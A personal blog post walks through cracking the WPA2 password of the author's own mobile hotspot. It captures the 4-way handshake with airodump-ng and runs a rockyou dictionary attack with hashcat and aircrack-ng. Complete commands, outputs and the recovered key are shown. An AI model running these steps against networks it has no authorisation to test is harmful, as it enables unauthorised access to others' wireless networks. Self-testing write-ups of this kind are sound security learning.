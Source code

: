 ```yaml
---
layout: post
title: Hacking my mobile hotspot with Aircrack-ng
---
```


This is my experience going through Brannon Dorsey's [great Wi-Fi cracking tutorial](https://github.com/brannondorsey/wifi-cracking) to hack my own mobile hotspot password. This is definitely not anything new but it appeared on Hacker News and I always wanted to learn how to use Aircrack-ng, so why not.

We will be sniffing out password hashes found in the WPA/WPA2 4-way handshake, which is performed when a client wants to authenticate itself to a WPA/WPA2 network using `airodump-ng`, and reversing the hash against a publicly available wordlist using `hashcat` or `aircrack-ng`.

We cannot use rainbow tables to reverse the hash effectively, as WPA/WPA2 uses the SSID as the salt for the hash. Instead, we rely on known weak popular passwords.

This tutorial is by no means well-prepared, as this is to merely outline the steps I took to perform my first Wi-Fi hack.

## Prerequisites

You will need a wireless card that supports monitor mode, as well as `airodump-ng` to monitor beacon frames from Wi-Fi routers.

You will also need one of these WPA/WPA2 hash reversing tools:

- `hashcat` (uses GPU, recommended)
    - Requires OpenCL (not working for me on Kali Linux)
- `aircrack-ng` (uses CPU)

## Walkthrough

First, start the monitor.

```console
root@sm15-kali:~# airmon-ng start wlan0

PHY	Interface	Driver		Chipset

phy0	wlan0mon	ath10k_pci	Qualcomm Atheros QCA6174 802.11ac Wireless Network Adapter (rev 20)

```

The interface here is `wlan0mon`, which can be verified with `iwconfig`.

Use `airodump-ng wlan0mon` to view all available Wifi networks. Identify your target and pick out the BSSID and Channel.

```console
root@sm15-kali:~# airodump-ng wlan0mon
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
2E:0E:3D:E4:35:76  -43       11        0    0  11  54e  WPA2 CCMP   PSK  IrvinAP
```

Next, keep monitoring the target until we can intercept a 4-way handshake, using the BSSID and Channel number retrieved earlier:

```console
root@sm15-kali:~# airodump-ng -c 6 --bssid 2E:0E:3D:E4:35:76 -w . wlan0mon

 CH  6 ][ Elapsed: 36 s ][ 2017-07-25 03:49 ][ WPA handshake: 2E:0E:3D:E4:35:76                                         
                                                                                                                                                               
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                               
 2E:0E:3D:E4:35:76  -48 100      353      148    0   6  54e  WPA2 CCMP   PSK  IrvinAP                                                                          
                                                                                                                                                               
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                     
                                                                                                                                                               
 2E:0E:3D:E4:35:76  60:F8:1D:AD:A4:F8  -57    0e- 1e     0      183                                                                                             

```

Wait until you see `WPA handshake` in the top line, which indicates that a client is initiating an authentication attempt to the router. Most likely the password sniffed should be correct, as devices connect to Wifi networks nowadays.

You will get some network capture files in your current directory:

```console
root@sm15-kali:~# ls -la
total 892
drwxr-xr-x 26 root root   4096 Jul 25 03:48 .
drwxr-xr-x 23 root root   4096 Jul 18 20:10 ..
-rw-r--r--  1 root root 457187 Jul 25 02:40 .-01.cap
-rw-r--r--  1 root root    584 Jul 25 02:40 .-01.csv
-rw-r--r--  1 root root    602 Jul 25 02:40 .-01.kismet.csv
-rw-r--r--  1 root root   3849 Jul 25 02:40 .-01.kismet.netxml
-rw-r--r--  1 root root    476 Jul 25 03:28 .-02.csv
-rw-r--r--  1 root root    589 Jul 25 03:28 .-02.kismet.csv
-rw-r--r--  1 root root   2745 Jul 25 03:28 .-02.kismet.netxml
...
```

Now you can reverse the WPA/WPA2 hash which is stored in the `.cap` file, with either `hashcat` or `aircrack-ng`. But first, download a wordlist, such as [Rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt), which will be our source of keys that will be manually brute forced.

### `hashcat`

`hashcat` didn't work for me on Kali, so I used my Mac to do this instead. To install `hashcat` on a Mac, I followed [these instructions](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/).

```
git clone https://github.com/hashcat/hashcat.git
mkdir -p hashcat/deps
git clone https://github.com/KhronosGroup/OpenCL-Headers.git hashcat/deps/OpenCL
cd hashcat/
make
```

Verify that your installation works by running one of the example scripts such as `example0.sh`.

Convert your `.cap` file to a `.hccapx` file first with `cap2hccapx` (download from [`hashcat-utils`](https://github.com/hashcat/hashcat-utils/releases/download/v1.8/hashcat-utils-1.8.7z)).

Finally, we can execute the reversal:

```console
(pypy-venv) mbp14-osx:hashcat irvin$ ./hashcat -m 2500 IrvinAP.hccapx ../naive-hashcat/dicts/rockyou.txt
hashcat (v3.6.0-265-ga85be1d0) starting...

OpenCL Platform #1: Apple
=========================
* Device #1: Intel(R) Core(TM) i7-4870HQ CPU @ 2.50GHz, skipped.
* Device #2: Iris Pro, 384/1536 MB allocatable, 40MCU
* Device #3: GeForce GT 750M, 512/2048 MB allocatable, 2MCU

Hashes: 4 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger disabled.
Watchdog: Temperature retain trigger disabled.

Dictionary cache hit:
* Filename..: ../naive-hashcat/dicts/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

59c75d223c3a28d5f813759b68597a08:2e0e3de43576:60f81dada4f8:IrvinAP:curryrice
ed6b58543af52685a7f179778ad38e7f:2e0e3de43576:60f81dada4f8:IrvinAP:curryrice

Session..........: hashcat
Status...........: Cracked
Hash.Type........: WPA/WPA2
Hash.Target......: /Users/irvin/Google Drive/IrvinAP.hccapx
Time.Started.....: Tue Jul 25 03:32:58 2017 (53 secs)
Time.Estimated...: Tue Jul 25 03:33:51 2017 (0 secs)
Guess.Base.......: File (../naive-hashcat/dicts/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#2.....:     5789 H/s (16.27ms)
Speed.Dev.#3.....:     4628 H/s (6.70ms)
Speed.Dev.#*.....:    10416 H/s
Recovered........: 2/2 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1173908/14344384 (8.18%)
Rejected.........: 620948/1173908 (52.90%)
Restore.Point....: 886805/14344384 (6.18%)
Candidates.#2....: elainemcg -> FARMERS1
Candidates.#3....: woolshed -> wardriver

Started: Tue Jul 25 03:32:53 2017
Stopped: Tue Jul 25 03:33:52 2017
```

We found a match - `curryrice`!

### `aircrack-ng`

Alternatively, we can use the bundled `aircrack-ng` tool in the whole Aircrack-ng Wi-Fi cracking suite to reverse our hashes. This is already preinstalled on Kali, so no worries here.

However, as compared to `hashcat`, `aircrack-ng` runs completely on the CPU so expect it to be much slower. It took me over 100 seconds on my Aftershock SM-15 (i7-4720HQ CPU @ 2.60GHz) to complete the cracking, as compared to 60 seconds on my Mac (i7-4870HQ CPU @ 2.50GHz).

```console
root@sm15-kali:~# aircrack-ng -a2 -b 2E:0E:3D:E4:35:76 -w bin/naive-hashcat/dicts/rockyou.txt IrvinAP.cap
Opening IrvinAP.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:01:46] 461632/9822769 keys tested (4343.99 k/s) 

      Time left: 35 minutes, 55 seconds                          4.70%

                           KEY FOUND! [ curryrice ]


      Master Key     : 63 BE 50 BB 49 39 20 91 CB F6 3A E9 87 55 E7 D7 
                       DB F1 70 DB 05 0E 7A 40 01 B4 AB B4 2B 94 78 FD 

      Transient Key  : 4D 2C 6B EA B7 AF D3 38 4E 5B 69 BB 6C 36 F0 0E 
                       15 73 16 47 A8 73 C6 F6 6E 35 07 D6 0E D4 B5 AA 
                       97 7A AF 6A 77 86 C8 D5 A0 A4 9C 7F FF 23 92 32 
                       07 5B 14 1A BC 6D F9 AF 33 6D 14 A7 2E D7 57 37 

      EAPOL HMAC     : F8 0D EC 1A AD 90 D8 67 A4 36 E2 95 A0 44 27 08 

```

## Conclusion

I was pleasantly surprised to find that my actual mobile hotspot password (which I am fully aware of how weak it is) is present in the wordlist. This prompted me to change it to something much more secure yet easy to type in.

Nonetheless, the success of such a method of cracking password hashes (regardless of WPA/WPA2 or whatever) is only dependent on how weak **and** common the passwords are. My actual router in my room has a much more obscure password (but still weak nonetheless), and I did not manage to crack the password there.

Anyway this was a great exercise in hacking which didn't take up much time! Would encourage anyone to try this, and subsequently go research about how all these tools work.

Until next time!
